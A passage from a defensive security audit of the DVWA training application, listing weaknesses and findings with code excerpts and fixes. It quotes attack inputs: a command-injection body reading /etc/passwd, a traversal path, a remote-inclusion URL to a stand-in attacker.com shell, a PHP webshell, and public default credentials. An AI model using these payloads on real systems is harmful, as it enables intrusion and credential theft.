The application's strongest positive controls are the CSRF synchronizer token checked on the login form, the PDO prepared statement pattern demonstrated at impossible security level in `vulnerabilities/sqli/source/impossible.php`, `session_regenerate_id(true)` at impossible level in `dvwaPage.inc.php`, MIME type and dimension validation at impossible level in the upload module, and `package-lock.json` committed for Node\.js dependency determinism. These show that the correct control patterns are understood and available within the codebase.

The control-boundary repairs that would most significantly restore layered defense are: replacing `md5()` with `pass**** (8 chars)_hash()` (bcrypt or Argon2) across all user tables and login paths; replacing string-interpolated queries with PDO prepared statements at all security levels (not only the impossible training path); moving all secrets (`ACCESS_TOKEN_SECRET`, `ENCRYPTION_KEY`, `MYSQL_PASSWORD`) to externally injected environment variables absent from version control; adding `Content-Security-Policy`, `X-Frame-Options`, and `X-Content-Type-Options` headers in `dvwaPage.inc.php`; pinning all GitHub Actions to full SHA digests with a root-level `permissions: {contents: read}` block; and adding structured security event logging to both `dvwaPage.inc.php` and `LoginController.php`.

<!-- enriched:standard -->

---

<a id="weakness-register"></a>
## 7. Weakness Register

Systemic control gaps behind the findings, ordered by severity (W-001 = most severe). Each weakness names the missing, home-grown, or misused control, the findings that evidence it, the components it spans, and its remediation. A weakness may also rest on observed unsafe practice or an absent architectural control with no confirmed exploit - only confirmed findings carry a CVSS score.

- 🟠 **High** · [W-001](#w-001) - Input handling lacks enforced boundary validation · confirmed · 0 findings · 1 component
- 🟠 **High** · [W-002](#w-002) - Build pipeline trusts mutable third-party references · confirmed · 2 findings · 1 component
- 🟠 **High** · [W-003](#w-003) - Secrets are committed to source instead of a managed store · confirmed · 5 findings · 3 components
- 🟡 **Medium** · [W-004](#w-004) - Security-sensitive data uses weak cryptographic primitives · observed-practice · 11 findings · 3 components
- 🟡 **Medium** · [W-005](#w-005) - Frontend rendering lacks enforced output encoding · design-risk · 0 findings · 0 components

<a id="w-001"></a>
### W-001 — Input handling lacks enforced boundary validation

🟠 **High** · design weakness · confirmed

Request handlers do not validate input against one enforced server-side schema or allowlist at the boundary - validation is either absent on the vulnerable parameters or limited to rejecting selected bad patterns (a blacklist). New encodings and unanticipated input forms can therefore reach downstream parsers or interpreters.

**Architecture evidence:** Schema Validation, Allowlist Validation

**Affected components:** backend-api

**Remediation:**

- **Structural** — enforce server-side schemas and domain-specific allowlists before input reaches parsing, persistence, or command construction

<a id="w-002"></a>
### W-002 — Build pipeline trusts mutable third-party references

🟠 **High** · design weakness · confirmed · 2 findings

CI/CD workflows resolve third-party actions and other build dependencies to mutable tags or branches instead of immutable commit digests, so a retagged or compromised upstream runs inside the pipeline with its token and secret scope.

**Confirmed findings:**

- 🟠 [F-014](#f-014) — Unpinned GitHub Actions allow supply-chain code injection (.github/workflows)
- 🟠 [F-022](#f-022) — Third-party GitHub Actions pinned to commit SHA

**Architecture evidence:** Commit-SHA Action Pinning, Dependency Provenance Verification

**Affected components:** [C-04](#c-04)

**Remediation:**

- **Structural** — pin every third-party action and build dependency to an immutable commit SHA (or a vetted internal mirror) and enforce SHA-pinning in CI
- **Tactical** — ◕ [M-013](#m-013) — Set least-privilege CI workflow permissions, ◕ [M-021](#m-021) — Pin third-party dependencies to immutable versions

<a id="w-003"></a>
### W-003 — Secrets are committed to source instead of a managed store

🟠 **High** · design weakness · confirmed · 5 findings

Cryptographic keys, credentials, and other high-entropy secrets are embedded as literals in source or config rather than resolved at runtime from a managed secret store, so anyone with repository read access obtains reusable signing material and credentials.

**Confirmed findings:**

- 🔴 [F-006](#f-006) — Hardcoded Database Credentials in compose\.yml Enable Unauthenticated Access
- 🔴 [F-007](#f-007) — Hardcoded Cryptographic Key (`Login.php:10`)
- 🔴 [F-008](#f-008) — Hardcoded User and OAuth2 Client Credentials (`LoginController.php:60`)
- 🔴 [F-031](#f-031) — Hardcoded Default Database Password in Repository
- 🔴 [F-035](#f-035) — Known Root Password 'dvwa' Enables Full DB Admin Access (`.yml:31`)

**Architecture evidence:** Managed Secret Store, Runtime Secret Injection

**Affected components:** [C-03](#c-03), [C-02](#c-02), [C-01](#c-01)

**Remediation:**

- **Structural** — move every secret to a managed secret store or injected environment configuration, rotate the exposed values, and add secret-scanning to CI
- **Tactical** — ◕ [M-006](#m-006) — Move secrets to a managed secret store, ◕ [M-007](#m-007) — Move cryptographic keys to a managed secret store, ◕ [M-008](#m-008) — Move secrets to a managed secret store, ◕ [M-030](#m-030) — Move secrets to a managed secret store, ◕ [M-034](#m-034) — Move secrets to a managed secret store

<a id="w-004"></a>
### W-004 — Security-sensitive data uses weak cryptographic primitives

🟡 **Medium** · implementation weakness · observed-practice · 11 findings

Password, token, or integrity protection uses a weak hash, predictable random source, or insufficient work factor. The application may use a standard library, but the selected primitive does not provide the requ**** (8 chars) security property.

**Practice sites:**

- 🟠 [F-026](#f-026) — Unsalted MD5 Hashing Used for User Passwords (`create_postgresql_db.sql:2`) (`database/create_postgresql_db.sql:2`)
- 🟠 [F-038](#f-038) — MD5 Password Hashing Without Salt (`login.php`:27) (`login.php:27`)
- 🟡 [F-040](#f-040) — Broken hash primitive PHP `dvwa/includes/dvwaPage.inc.php:651` (MD5/SHA-1) (`dvwa/includes/dvwaPage.inc.php:651`)
- 🟡 [F-041](#f-041) — Broken hash primitive PHP `vulnerabilities/captcha/source/impossible.php:14` (`vulnerabilities/captcha/source/impossible.php:14`)
- 🟡 [F-042](#f-042) — Broken hash primitive PHP `vulnerabilities/captcha/source/impossible.php:19` (`vulnerabilities/captcha/source/impossible.php:19`)
- 🟡 [F-043](#f-043) — Broken hash primitive PHP `vulnerabilities/csrf/source/impossible.php:15` (SHA-1) (`vulnerabilities/csrf/source/impossible.php:15`)
- 🟡 [F-044](#f-044) — Broken hash primitive PHP `vulnerabilities/csrf/source/impossible.php:29` (SHA-1) (`vulnerabilities/csrf/source/impossible.php:29`)
- 🟡 [F-045](#f-045) — Broken hash primitive PHP `vulnerabilities/csrf/test_credentials.php:19` (SHA-1) (`vulnerabilities/csrf/test_credentials.php:19`)
- 🟡 [F-046](#f-046) — Broken hash primitive PHP `vulnerabilities/javascript/index.php:43` (MD5/SHA-1) (`vulnerabilities/javascript/index.php:43`)
- 🟡 [F-047](#f-047) — Broken hash primitive PHP `vulnerabilities/javascript/source/low.php:18` (SHA-1) (`vulnerabilities/javascript/source/low.php:18`)
- 🟡 [F-056](#f-056) — Predictable Sequential Session Identifier (`low.php`:9) (`vulnerabilities/weak_id/source/low.php:9`)

**Affected components:** backend-api, [C-03](#c-03), [C-01](#c-01)

**Remediation:**

- **Structural** — standardise on a pass**** (8 chars) KDF, a CSPRNG for secrets, and modern authenticated cryptographic primitives with centrally reviewed parameters
- **Tactical** — ◕ [M-025](#m-025) — Hash pass**** (8 chars)s with a strong, salted algorithm, ◕ [M-037](#m-037) — Hash pass**** (8 chars)s with a strong, salted algorithm, ◑ [M-039](#m-039) — Use modern cryptographic hash and KDF algorithms, ◑ [M-048](#m-048) — Use cryptographically secure random values

<a id="w-005"></a>
### W-005 — Frontend rendering lacks enforced output encoding

🟡 **Medium** · design weakness · design-risk

Browser rendering paths write HTML or DOM content directly without one enforced contextual-encoding or sanitisation boundary. Safety depends on each individual component using the right API.

**Architecture evidence:** Template Autoescape, Output Encoding, Content Security Policy

**Remediation:**

- **Structural** — use framework-safe rendering by default and isolate any requ**** (8 chars) raw HTML behind one reviewed sanitisation and Trusted Types policy

---

## 8. Findings Register

Findings are grouped by severity (Critical → High → Medium → Low); within a tier they are ordered by attack vektor (Repo-Read → Internet-Anon → Internet-User → Victim-Required). Each finding is a card with the same fixed fields, in order: **Severity · Component · Location** → **Issue** → **Root cause** → **Evidence** → **Fix** → **Classification** (with external CWE / OWASP links).

**Risk Distribution:** 🔴 Critical: 6 · 🟠 High: 34 · 🟡 Medium: 18 · 🟢 Low: 0 · **Total findings: 58**
**STRIDE Coverage:** Spoofing: 6 · Tampering: 23 · Repudiation: 3 · Information Disclosure: 17 · Denial of Service: 2 · Elevation of Privilege: 7

The systemic root-cause view is summarized in **Top Weaknesses** in the Management Summary; evidence-backed weaknesses are documented in the [Weakness Register](#weakness-register).

**Findings index:**<br/>🔴 [F-001](#f-001) — OS Command Injection (`HealthController.php:88`)…<br/>🔴 [F-002](#f-002) — OS Command Injection (`low.php:10`)…<br/>🔴 [F-003](#f-003) — SQL Injection (`low.php:10`)…<br/>🔴 [F-004](#f-004) — Local and Remote File Inclusion (`index.php:36`)…<br/>🔴 [F-005](#f-005) — Unrestricted File Upload to Web-Accessible Directory (`low.php`:9)…<br/>🔴 [F-006](#f-006) — Hardcoded Database Credentials in compose\.yml Enable Unauthenticated…<br/>🔴 [F-007](#f-007) — Hardcoded Cryptographic Key (`Login.php:10`)…<br/>🔴 [F-008](#f-008) — Hardcoded User and OAuth2 Client Credentials (`LoginController.php:60`)…<br/>🟠 [F-009](#f-009) — Authentication Bypass Flag — `dvwa/includes/dvwaPage.inc.php:149`<br/>🟠 [F-010](#f-010) — Session Fixation (`dvwaPage.inc.php:102`)…<br/>🟠 [F-012](#f-012) — OS Command Injection<br/>🔴 [F-013](#f-013) — SQL Injection<br/>🟠 [F-014](#f-014) — Unpinned GitHub Actions allow supply-chain code injection…<br/>🟠 [F-015](#f-015) — Overprivileged 'dvwa' DB User Has — `database/bac_setup.sql:27`<br/>🔴 [F-016](#f-016) — Missing Authentication on User CRUD Endpoints (`UserController.php`)…<br/>🔴 [F-017](#f-017) — Cross-Site Scripting (XSS)<br/>🟠 [F-018](#f-018) — CSRF on Password Change via GET (`low.php:3`)…<br/>🟠 [F-019](#f-019) — Client-Controlled Security Level Bypasses All Module Protections…<br/>🟠 [F-020](#f-020) — Missing Security Event Audit Logging…<br/>🟠 [F-021](#f-021) — GitHub Actions workflow-level permissions block<br/>🟠 [F-022](#f-022) — Third-party GitHub Actions pinned to commit SHA<br/>🟠 [F-023](#f-023) — Dockerfile base image must be digest-pinned — `Dockerfile:1`<br/>🟠 [F-024](#f-024) — `Package-lock.json` present and committed — `N/A`<br/>🟠 [F-025](#f-025) — Cleartext Storage of Sensitive Data — `database/create_sqlite_db.sql:22`<br/>🟠 [F-026](#f-026) — Password Hash with Insufficient Effort…<br/>🟠 [F-027](#f-027) — Password Hash Exposure via v1 User API…<br/>🟠 [F-028](#f-028) — Database Error Disclosure in Authentication Path (`login.php`:40)…<br/>🟠 [F-029](#f-029) — Session Cookie Missing HttpOnly and Secure Flags at Non-Impossible…<br/>🟠 [F-030](#f-030) — Missing HTTP Security Headers Across All Responses…<br/>🔴 [F-031](#f-031) — Hardcoded Default Database Password in Repository…<br/>🟠 [F-032](#f-032) — Missing Rate Limiting on Authentication Endpoints…<br/>🟠 [F-033](#f-033) — No Rate Limiting or Account Lockout on Login Endpoint — `login.php:10`<br/>🟠 [F-034](#f-034) — Write-all inherited all workflows no…<br/>🔴 [F-035](#f-035) — Known Root Password 'dvwa' Enables Full DB Admin Access…<br/>🔴 [F-036](#f-036) — Unauthenticated User Privilege Level Manipulation…<br/>🔴 [F-037](#f-037) — Unauthenticated Database Setup and Reset Endpoint (`setup.php`:6)…<br/>🟠 [F-038](#f-038) — MD5 Password Hashing Without Salt (`login.php`:27) — `login.php:27`<br/>🟡 [F-039](#f-039) — Open Redirect — `vulnerabilities/open_redirect/source/low.php:4`<br/>🟡 [F-040](#f-040) — Broken hash primitive PHP `dvwa/includes/dvwaPage.inc.php:651`…<br/>🟡 [F-041](#f-041) — Broken hash primitive PHP `vulnerabilities/captcha/source/impossible.php`…<br/>🟡 [F-042](#f-042) — Broken hash primitive PHP `vulnerabilities/captcha/source/impossible.php`…<br/>🟡 [F-043](#f-043) — Broken hash primitive PHP `vulnerabilities/csrf/source/impossible.php:15`…<br/>🟡 [F-044](#f-044) — Broken hash primitive PHP `vulnerabilities/csrf/source/impossible.php:29`…<br/>🟡 [F-045](#f-045) — Use of Weak Hash — `vulnerabilities/csrf/test_credentials.php:19`<br/>🟡 [F-046](#f-046) — Broken hash primitive PHP `vulnerabilities/javascript/index.php:43`…<br/>🟡 [F-047](#f-047) — Broken hash primitive PHP `vulnerabilities/javascript/source/low.php:18`…<br/>🟡 [F-048](#f-048) — Docker image pushed without signing or SLSA provenance…<br/>🟡 [F-049](#f-049) — No MySQL Binary Logging or Immutable Audit Trail Configured in…<br/>🟡 [F-050](#f-050) — Missing Security Event Audit Logging — `login.php:43`<br/>🟡 [F-051](#f-051) — Dockerfile USER directive (non-root) — `Dockerfile:1`<br/>🔴 [F-052](#f-052) — Container image signing via cosign or attest-build-provenance<br/>🟡 [F-053](#f-053) — Incorrect Permission Assignment<br/>🟡 [F-054](#f-054) — Unauthenticated Swagger UI and OpenAPI Specification Exposure…<br/>🟡 [F-055](#f-055) — Overly Permissive CORS Policy…<br/>🟡 [F-056](#f-056) — Predictable Sequential Session Identifier (`low.php`:9)…<br/>🟠 [F-059](#f-059) — Cross-origin request abuse through permissive CORS…<br/>🟠 [F-060](#f-060) — Data disclosure through cleartext transport — `about.php:28`<br/>🔴 [F-061](#f-061) — User-controlled input reaches a server-side execution sink…

<a id="th-01"></a><a id="th-05"></a><a id="th-07"></a><a id="th-02"></a><a id="th-03"></a><a id="th-04"></a><a id="th-06"></a><a id="th-09"></a><a id="th-11"></a><a id="th-12"></a><a id="th-14"></a><a id="th-15"></a><a id="th-16"></a><a id="th-17"></a><a id="th-18"></a>

### 🔴 Critical (6)

<a id="t-001"></a><a id="f-001"></a>
#### F-001 · OS Command Injection (vulnerabilities/api/src/HealthController.php:88)

**Severity:** 🔴 Critical  ·  **Component:** [C-02](#c-02) - DVWA REST API (Slim + Swagger)  ·  **Location:** `vulnerabilities/api/src/HealthController.php:88`

**Trust boundary gap:** [tb-1](#tb-1) 🌐 External - external → web-application · Validation: Raw \$target reaches `exec()` without sanitization; breaks validation leg.

**Issue:** The `checkConnectivity()` method calls exec("ping -c 4 " . \$target) where \$target is taken directly from the JSON request body field "target" with no sanitization, escaping, or allowlisting.

The `/api/v2/health/connectivity` endpoint requires no authentication. An attacker sends POST `/api/v2/health/connectivity` with body `{"target": "127.0.0.1; cat /etc/passwd"}` and the server executes the compound shell command, returning the output when the ping portion succeeds.

Unauthenticated remote code execution on the web server; attacker achieves OS-level command execution under the PHP process identity.

**Evidence:** ✓ verified - `HealthController.php:88` concatenates \$input['target'] directly into the `exec()` argument string with no escaping or allowlist check.

```
// vulnerabilities/api/src/HealthController.php:88
		if (array_key_exists ("target", $input)) {
			$target = $input['target'];

			exec ("ping -c 4 " . $target, $output, $ret_var);

			if ($ret_var == 0) {
				$response['status_code_header'] = 'HTTP/1.1 200 OK';
```

**Fix:** Replace shell invocations with an argv-list API and validate every input → ● [M-001](#m-001) — Centralized input validation and output encoding layer (`HealthController.php:88`)

**Classification:** Injection · [CWE-78](https://cwe.mitre.org/data/definitions/78.html) · [OWASP A05:2025](https://owasp.org/Top10/2025/A05_2025-Injection/) · walkthrough [Walkthrough §3.2](#32-os-command-injection-in-health-controller)

<a id="t-002"></a><a id="f-002"></a>
#### F-002 · OS Command Injection (vulnerabilities/exec/source/low.php:10)

**Severity:** 🔴 Critical  ·  **Component:** [C-01](#c-01) - DVWA PHP Web Application  ·  **Location:** `vulnerabilities/exec/source/low.php:10`

**Issue:** The Command Injection module passes user-supplied `$_REQUEST['ip']` directly to `shell_exec()` without any sanitization at low security level. An attacker can append arbitrary shell commands using metacharacters such as `;`, `|`, or `&&`.

The web server user (typically `www-data`) executes the injected command, giving the attacker read/write access to all files the web process can reach, including `/etc/passwd`, application source, and database credentials. Arbitrary OS command execution as the web server process owner; full server compromise.

**Evidence:** ✓ verified - `exec/source/low.php:10` calls `shell_exec('ping  ' . $target)` where `$target = $_REQUEST['ip']` is completely unvalidated.

```
// vulnerabilities/exec/source/low.php:10
	// Determine OS and execute the ping command.
	if( stristr( php_uname( 's' ), 'Windows NT' ) ) {
		// Windows
		$cmd = shell_exec( 'ping  ' . $target );
	}
	else {
		// *nix
```

**Fix:** Replace shell invocations with an argv-list API and validate every input → ◕ [M-002](#m-002) — Establish automated dependency scanning and update SLA (`low.php:10`)

**Classification:** Injection · [CWE-78](https://cwe.mitre.org/data/definitions/78.html) · [OWASP A05:2025](https://owasp.org/Top10/2025/A05_2025-Injection/) · walkthrough [Walkthrough §3.3](#33-os-command-injection-in-low)

<a id="t-003"></a><a id="f-003"></a>
#### F-003 · SQL Injection (vulnerabilities/sqli/source/low.php:10)

**Severity:** 🔴 Critical  ·  **Component:** [C-01](#c-01) - DVWA PHP Web Application  ·  **Location:** `vulnerabilities/sqli/source/low.php:10`

**Trust boundary gap:** [tb-3](#tb-3) - web-application → database · Query construction: The query reaching the database at this call site uses string interpolation rather than parameterized binding, breaking the data-interpretation assumption of tb-3.

**Issue:** At low security level, the SQL Injection module builds its query by string-interpolating the unsanitized `$_REQUEST['id']` value directly into the SQL string. An attacker can inject UNION-based payloads to read all tables in the MySQL database, including the `users` table containing usernames and `MD5`-hashed pass**** (8 chars)s.

Because `mysqli_error()` is exposed via `die()` on line 11, error-based extraction also works when UNION payloads fail. Full database read access and credential extraction; `MD5` hashes are directly rainbow-table-crackable.

**Evidence:** ✓ verified - `sqli/source/low.php:10` interpolates `$id` from `$_REQUEST['id']` directly into a `SELECT` query string with no escaping or parameterization.

```
// vulnerabilities/sqli/source/low.php:10
	switch ($_DVWA['SQLI_DB']) {
		case MYSQL:
			// Check database
			$query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";
			$result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

			// Get results
```

**Fix:** Switch all SQL execution to parameterised queries or ORM-bound parameters → ● [M-003](#m-003) — Use parameterized database queries (`low.php:10`)

**Classification:** Injection · [CWE-89](https://cwe.mitre.org/data/definitions/89.html) · [OWASP A05:2025](https://owasp.org/Top10/2025/A05_2025-Injection/) · walkthrough [Walkthrough §3.1](#31-sql-injection-in-low)

<a id="t-004"></a><a id="f-004"></a>
#### F-004 · Local and Remote File Inclusion (vulnerabilities/fi/index.php:36)

**Severity:** 🔴 Critical  ·  **Component:** [C-01](#c-01) - DVWA PHP Web Application  ·  **Location:** `vulnerabilities/fi/index.php:36`

**Issue:** The File Inclusion module sets `$file = $_GET['page']` (at `fi/source/low.php:4`) and then passes it directly to PHP's `include($file)` at `fi/index.php:36`. At low security level there is no path restriction.

An attacker can traverse to arbitrary server files using `?page=../../../../etc/passwd` (LFI). If `allow_url_include` is enabled in `php.ini`, the attacker can load and execute a remote PHP payload via `?page=http://attacker.com/shell.php` (RFI), achieving full server-side code execution.

LFI gives read access to any file readable by the web process; RFI enables arbitrary PHP code execution.

**Evidence:** ✓ verified - `fi/index.php:36` calls `include($file)` where `$file` is `$_GET['page']` with no validation at low security level.

```
// vulnerabilities/fi/index.php:36

// if( count( $_GET ) )
if( isset( $file ) )
	include( $file );
else {
	header( 'Location:?page=include.php' );
	exit;
```

**Fix:** ● [M-004](#m-004) — Restrict file inclusion to an explicit allowlist of permitted page filenames (`index.php:36`)

**Classification:** Injection · [CWE-98](https://cwe.mitre.org/data/definitions/98.html) · [OWASP A05:2025](https://owasp.org/Top10/2025/A05_2025-Injection/) · walkthrough [Walkthrough §3.4](#34-local-and-remote-file-inclusion-in-dvwa-php-web-application)

<a id="t-005"></a><a id="f-005"></a>
#### F-005 · Unrestricted File Upload to Web-Accessible Directory (low.php:9)

**Severity:** 🔴 Critical  ·  **Component:** [C-01](#c-01) - DVWA PHP Web Application  ·  **Location:** `vulnerabilities/upload/source/low.php:9`

**Issue:** The file upload module at low security level calls `move_uploaded_file()` directly after receiving the multipart POST, with no check on MIME type, file extension, or content. The destination directory `hackable/uploads/` is web-accessible.

An attacker uploads a PHP webshell (`<?php system($_GET['cmd']); ?>` saved as `shell.php`), then requests `http://target/hackable/uploads/shell.php?cmd=id` to execute arbitrary OS commands as the web server user. Remote code execution as the web server process; full compromise of the container including database credential theft.

**Evidence:** ✓ verified - `upload/source/low.php:9` calls `move_uploaded_file($_FILES['uploaded']['tmp_name'], $target_path)` with no file type, extension, or content validation.

```
// vulnerabilities/upload/source/low.php:9
	$target_path .= basename( $_FILES[ 'uploaded' ][ 'name' ] );

	// Can we move the file to the upload folder?
	if( !move_uploaded_file( $_FILES[ 'uploaded' ][ 'tmp_name' ], $target_path ) ) {
		// No
		$html .= '<pre>Your image was not uploaded.</pre>';
	}
```

**Fix:** Validate uploaded file type, size, and storage path; never execute uploaded content → ● [M-005](#m-005) — Enforce MIME type allowlist and rename uploaded files before storing in web-acc… (`low.php:9`)

**Classification:** Insecure File Handling · [CWE-434](https://cwe.mitre.org/data/definitions/434.html) · [OWASP A06:2025](https://owasp.org/Top10/2025/A06_2025-Insecure_Design/) · walkthrough [Walkthrough §3.5](#35-unrestricted-file-upload-to-web-accessible-directory-in-low)

<a id="t-061"></a><a id="f-061"></a>
#### F-061 · User-controlled input reaches a server-side execution sink

**Severity:** 🔴 Critical  ·  **Component:** [C-01](#c-01) - DVWA PHP Web Application  ·  **Location:** `vulnerabilities/exec/source/low.php:14`

**Issue:** Attacker-controlled input is passed to `eval`, a server-side template engine, an unsafe sandbox, or an unsafe deserializer.

**Evidence:** ✓ verified

```
// vulnerabilities/exec/source/low.php:14
	}
	else {
		// *nix
		$cmd = shell_exec( 'ping  -c 4 ' . $target );
	}

	// Feedback for the end user
```

**Fix:** Replace runtime code generation (eval/Function/template render) with a data-only execution path → ● [M-049](#m-049) — Remove server-side evaluation of untrusted input (`low.php:14`)

**Classification:** Code Execution via Unsafe Deserialization or Eval · [CWE-94](https://cwe.mitre.org/data/definitions/94.html) · [OWASP A08:2025](https://owasp.org/Top10/2025/A08_2025-Software_or_Data_Integrity_Failures/) · walkthrough [Walkthrough §3.6](#36-user-controlled-input-reaches-a-server-side-execution-sink-in-low)

### 🟠 High (34)

<a id="t-006"></a><a id="f-006"></a>
#### F-006 · Hardcoded Database Credentials in compose\.yml Enable Unauthenticated Access

**Severity:** 🟠 High  ·  **Component:** [C-04](#c-04) - GitHub Actions CI/CD Pipeline  ·  **Location:** `compose.yml:31`

**Weakness:** [W-003](#w-003) - Secrets are committed to source instead of a managed store

**Issue:** Both the application database user ('dvwa'/'p@ss**** (8 chars)') and the MariaDB root account ('dvwa') are committed in plain text to `compose.yml`, which is version-controlled and publicly accessible on GitHub. Any developer, contributor, or external attacker who clones the repository immediately possesses valid credentials for the database.

From within the Docker network - reachable by any other container on the 'dvwa' network - these credentials can authenticate directly against TCP 3306 without any further exploitation. Any party with repository read access can authenticate to the database without further exploitation, obtaining all user account data and session material.

**Evidence:** ✓ verified - `compose.yml:31` sets `MYSQL_ROOT_PASSWORD`=dvwa and :34 sets `MYSQL_PASSWORD`=p@ss**** (8 chars) as plain-text environment variables in a version-controlled file.

```yaml
// compose.yml:31
    image: docker.io/library/mariadb:10
    environment:
      - MYSQL_ROOT_PASSWORD=dvwa
      - MYSQL_DATABASE=dvwa
      - MYSQL_USER=dvwa
```

**Fix:** Move the credential out of source control into a secret store and rotate it → ◕ [M-006](#m-006) — Move secrets to a managed secret store (`compose.yml:31`)

**Classification:** Cryptographic Failures · [CWE-798](https://cwe.mitre.org/data/definitions/798.html) · [OWASP A04:2025](https://owasp.org/Top10/2025/A04_2025-Cryptographic_Failures/)

<a id="t-007"></a><a id="f-007"></a>
#### F-007 · Hardcoded Cryptographic Key (vulnerabilities/api/src/Login.php:10)

**Severity:** 🟠 High  ·  **Component:** [C-02](#c-02) - DVWA REST API (Slim + Swagger)  ·  **Location:** `vulnerabilities/api/src/Login.php:10`

**Weakness:** [W-003](#w-003) - Secrets are committed to source instead of a managed store

**Trust boundary gap:** [tb-1](#tb-1) 🌐 External - external → web-application · Authentication: Known secrets allow token forgery, breaking the authentication leg.

**Issue:** The token signing secret `ACCESS_TOKEN_SECRET` is the string literal "12345" (`Login.php:10`) and the AES-128-GCM encryption key `ENCRYPTION_KEY` is the string literal "Paintbrush" (`Token.php:10`). Both constants are committed to the public DVWA repository.

Any attacker who reads the source can construct a valid AES-128-GCM-encrypted payload containing `{"secret": "12345", "expires": <future>}`, base64-encode it with the correct tag/IV/ciphertext separator, and present the result as an Authorization: Bearer token. An unauthenticated attacker gains access to all bearer-token-protected API endpoints by presenting a forged token crafted offline.

**Evidence:** ✓ verified - `Login.php:10` assigns `ACCESS_TOKEN_SECRET` the literal "12345"; `check_access_token()` at line 33 accepts any token whose decrypted secret field matches that constant.

**Fix:** Move the cryptographic key out of source control into a managed secret store and rotate it → ◕ [M-007](#m-007) — Move cryptographic keys to a managed secret store (`Login.php:10`)

**Classification:** Cryptographic Failures · [CWE-321](https://cwe.mitre.org/data/definitions/321.html) · [OWASP A04:2025](https://owasp.org/Top10/2025/A04_2025-Cryptographic_Failures/)

<a id="t-008"></a><a id="f-008"></a>
#### F-008 · Hardcoded User and OAuth2 Client Credentials (LoginController.php:60)

**Severity:** 🟠 High  ·  **Component:** [C-02](#c-02) - DVWA REST API (Slim + Swagger)  ·  **Location:** `vulnerabilities/api/src/LoginController.php:60`

**Weakness:** [W-003](#w-003) - Secrets are committed to source instead of a managed store

**Trust boundary gap:** [tb-1](#tb-1) 🌐 External - external → web-application · Authentication: Hard-coded credentials in source break the authentication leg by making them public.

**Issue:** `LoginController.php` contains two sets of hardcoded plaintext credentials: the end-user account "mrbennett"/"becareful" (line 60 and line 96) and the OAuth2 client pair "1471.dvwa.digi.ninja"/"ABigLongSecret" (line 86). Both are committed to the public DVWA repository.

An attacker can use these credentials to obtain a legitimate access and refresh token pair via POST `/api/v2/login/login` or the pass**** (8 chars) grant flow without breaking any cryptographic control. Any party reading the public source code can authenticate as the test user and obtain valid bearer and refresh tokens.

**Evidence:** ✓ verified - `LoginController.php:60` compares \$username and \$pass**** (8 chars) to the literals "mrbennett" and "becareful"; line 86 checks `client_id` and `client_secret` against similarly hardcoded values.

```
// vulnerabilities/api/src/LoginController.php:60
			$pass**** (8 chars) = $input['pass**** (8 chars)'];

			if ($username == "mrbennett" && $pass**** (8 chars) == "becareful") {
				$response['status_code_header'] = 'HTTP/1.1 200 OK';
				$response['body'] = json_encode (array ("token" => Login::create_token()));
```

**Fix:** Move the credential out of source control into a secret store and rotate it → ◕ [M-008](#m-008) — Move secrets to a managed secret store (`LoginController.php:60`)

**Classification:** Cryptographic Failures · [CWE-798](https://cwe.mitre.org/data/definitions/798.html) · [OWASP A04:2025](https://owasp.org/Top10/2025/A04_2025-Cryptographic_Failures/)

<a id="t-009"></a><a id="f-009"></a>
#### F-009 · Authentication Bypass Flag

**Severity:** 🟠 High _(raw Critical)_  ·  **Component:** [C-01](#c-01) - DVWA PHP Web Application  ·  **Location:** `dvwa/includes/dvwaPage.inc.php:149`

**Trust boundary gap:** [tb-1](#tb-1) 🌐 External - external → web-application · Authentication: The authentication leg of tb-1 is nullified: `dvwaIsLoggedIn()` returns true without a session, removing the only access control gate for every authenticated route.

**Issue:** When the `DISABLE_AUTHENTICATION` environment variable is set to a truthy value, `dvwaIsLoggedIn()` at `dvwa/includes/dvwaPage.inc.php:149` returns `true` unconditionally regardless of session state. This same flag also bypasses the `checkToken()` CSRF validation at line 637.

Any request to any authenticated endpoint succeeds without credentials or CSRF tokens. Anyone with network access to the application gains full access to every authenticated page and can perform all actions without credentials.

**Evidence:** ✓ verified - `dvwaPage.inc.php:149` returns `true` early when `$_DVWA['disable_authentication']` is truthy, skipping all session checks.

```
// dvwa/includes/dvwaPage.inc.php:149
	global $_DVWA;

	if (array_key_exists("disable_authentication", $_DVWA) && $_DVWA['disable_authentication']) {
		return true;
	}
```

**Fix:** ◕ [M-009](#m-009) — Remove `DISABLE_AUTHENTICATION` code path from non-development builds (`dvwaPage.inc.php:149`)

**Classification:** Broken Authentication · [CWE-288](https://cwe.mitre.org/data/definitions/288.html) · [OWASP A07:2025](https://owasp.org/Top10/2025/A07_2025-Authentication_Failures/)

<a id="t-010"></a><a id="f-010"></a>
#### F-010 · Session Fixation (dvwa/includes/dvwaPage.inc.php:102)

**Severity:** 🟠 High  ·  **Component:** [C-01](#c-01) - DVWA PHP Web Application  ·  **Location:** `dvwa/includes/dvwaPage.inc.php:102`

**Trust boundary gap:** [tb-1](#tb-1) 🌐 External - external → web-application · Authentication: Session ID is not rotated on login, breaking the authentication leg: a pre-set ID from before authentication survives into the authenticated session.

**Issue:** At security levels below impossible, `dvwaPage.inc.php:102-103` explicitly preserves the pre-login session identifier by calling `session_id($_COOKIE[session_name()])` before `session_start()`. An attacker who plants a known session ID in a victim's browser (via a network-layer injection, XSS on a sibling domain, or cookie-tossing) will hold a valid authenticated session after the victim logs in, because the server never regenerates the ID on authentication state change.

Attacker gains a fully authenticated session as the victim without knowing their credentials.

**Evidence:** ✓ verified - `dvwaPage.inc.php:102-103` calls `session_id()` with the cookie value at non-impossible levels, keeping the attacker's pre-set ID after login.

```
// dvwa/includes/dvwaPage.inc.php:102
	}
	else {
		if (isset($_COOKIE[session_name()])) // if a session id already exists
			session_id($_COOKIE[session_name()]); // we keep the same id
		session_start(); // otherwise a new one will be generated here
```

**Fix:** ◕ [M-010](#m-010) — Rotate the session identifier on authentication (`dvwaPage.inc.php:102`)

**Classification:** Broken Authentication · [CWE-384](https://cwe.mitre.org/data/definitions/384.html) · [OWASP A07:2025](https://owasp.org/Top10/2025/A07_2025-Authentication_Failures/)

<a id="t-012"></a><a id="f-012"></a>
#### F-012 · OS Command Injection

**Severity:** 🟠 High  ·  **Component:** [C-02](#c-02) - DVWA REST API (Slim + Swagger)  ·  **Location:** Multiple locations (9)

